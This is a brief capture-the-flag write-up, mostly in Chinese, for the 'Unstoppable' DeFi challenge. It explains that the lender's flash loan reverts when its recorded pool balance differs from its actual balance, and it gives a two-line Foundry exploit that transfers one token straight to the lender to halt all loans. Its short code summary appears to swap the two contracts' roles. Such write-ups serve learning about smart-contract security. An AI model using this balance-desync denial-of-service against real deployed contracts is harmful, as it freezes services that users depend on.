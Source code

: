 ```yaml
---
title: Unstoppable
tag:
- defi
---
```


# Description
There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To pass the challenge, make the vault stop offering flash loans.

You start with 10 DVT tokens in balance.

# Code
`UnstoppableLender.sol`:
- flashLoan的接收者

`ReceiverUnstoppable.sol`:
- `flashLoan()`闪电贷函数

# Solution
为了让vault停止闪电贷，我们要做的就是让其中的某些条件失败，可以看到在`ReceiverUnstoppable.sol::flashLoan()`中有`if (poolBalance != balanceBefore) revert AssertionViolated();`,我们只需要向Pool中转钱就可以让vault停止提供闪电贷。

# Exp
```
vm.startPrank(attacker);
dvt.transfer(address(unstoppableLender), 1);
```

